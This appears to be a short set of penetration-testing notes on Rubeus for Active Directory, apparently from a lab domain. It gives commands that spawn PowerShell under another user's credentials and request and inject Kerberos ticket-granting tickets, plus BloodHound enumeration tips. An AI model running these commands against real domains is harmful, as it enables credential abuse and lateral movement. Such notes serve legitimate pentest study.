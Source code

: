 # Rubeus

<br>

***Spawn another powershell process under a different user using their credentials***

- $ `.\Rubeus.exe createnetonly /program:powershell /show /username:marth /password:Winner77 /domain:lab.local`

<br>

***Request a ticket-granting-ticket from the KDC using user credentials and pass the ticket to memory.***

- $ `.\Rubeus.exe asktgt /user:martha /password:Winner77 /domain:lab.local /ptt /nowrap`
    - Sometimes you have to start a process using the users credentials with **createnetonly** and then request the ticket-granting-ticket from that process so you don't get hit with access denied.

<br>

***Sometimes enumeration with Bloodhound will reveal vulnerable ACL that would be impossible to enumerate using PowerView. Use both.***
- Make sure that the SharpHound.exe you are using is compatible with the Bloodhound version you are using otherwise it will throw "bad JSON" error.
